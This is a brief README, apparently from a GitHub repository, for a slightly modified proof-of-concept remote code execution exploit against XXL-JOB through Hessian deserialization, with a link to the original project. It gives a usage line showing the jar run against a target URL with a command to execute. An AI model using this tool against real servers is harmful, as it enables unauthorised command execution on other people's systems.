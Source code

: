 # XxlJob-Hessian-RCE
原项目地址：https://github.com/OneSourceCat/XxlJob-Hessian-RCE

轻改大佬的poc，也就加了两个参数而已，方便你我他

## 使用
Usage: java -jar test.jar -u http://192.168.33.66:9999 -c notepad
